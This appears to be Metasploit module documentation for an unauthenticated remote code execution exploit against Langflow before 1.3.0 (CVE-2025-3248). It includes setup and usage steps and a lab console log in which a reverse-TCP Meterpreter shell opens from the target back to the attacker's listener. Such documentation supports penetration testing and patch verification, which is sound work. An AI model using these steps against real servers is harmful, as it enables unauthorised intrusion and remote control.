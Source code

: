 ## Vulnerable Application

Langflow versions prior to 1.3.0 are susceptible to code injection in the /api/v1/validate/code endpoint.
A remote and unauthenticated attacker can send crafted HTTP requests to execute arbitrary code.

The vulnerability affects:

    * Langflow < 1.3.0

This module was successfully tested on:

    * Langflow 1.3.2 installed with Docker

(Seems like if authentication is not enabled, version 1.3.2 is vulnerable.)


### Installation
1. `git clone https://github.com/langflow-ai/langflow.git`

2. `cd langflow/docker_example`

3. `docker compose up`


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/langflow_unauth_rce_cve_2025_3248`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options


## Scenarios
```
msf6 > use exploit/linux/http/langflow_unauth_rce_cve_2025_3248
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(linux/http/langflow_unauth_rce_cve_2025_3248) > options

Module options (exploit/linux/http/langflow_unauth_rce_cve_2025_3248):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    7860             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Python payload



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/langflow_unauth_rce_cve_2025_3248) > run lhost=192.168.56.1 rhost=192.168.56.16
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Version 1.3.2 detected
[*] Sending stage (24772 bytes) to 192.168.56.16
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.16:39272) at 2025-04-11 13:47:47 +0900

meterpreter > getuid
Server username: user
meterpreter > sysinfo
Computer        : c459aabb0d29
OS              : Linux 6.8.0-56-generic #58-Ubuntu SMP PREEMPT_DYNAMIC Fri Feb 14 15:33:28 UTC 2025
Architecture    : x64
System Language : C
Meterpreter     : python/linux
meterpreter > 
```
